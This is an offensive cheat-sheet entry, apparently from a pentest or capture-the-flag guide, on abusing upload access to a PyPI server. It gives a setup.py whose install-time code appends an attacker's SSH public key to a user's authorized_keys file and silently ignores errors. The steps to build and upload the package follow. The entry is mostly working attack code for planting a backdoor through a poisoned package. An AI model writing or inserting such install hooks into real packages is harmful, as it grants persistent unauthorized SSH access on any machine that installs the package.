 ## Have access to a pypi server and can upload files ?

- Install setuptools, twine and wheel on your attacking machine

- Create a .pypirc file in the $HOME directory :
```
[testpypi]
    repository: \<url_of_the_server\>
    username: \<username\>
    password: \<password\>
```

- Create a setup.py file :
```
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a") as f:
        f.write("mysshkey")
        f.close()

except Exception as e:
    pass

setuptools.setup(
    name="t0",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    )
```

- ```python3 setup.py sdist bdist_wheel```
- ```python3 -m twine upload --repository testpypi dist/*```
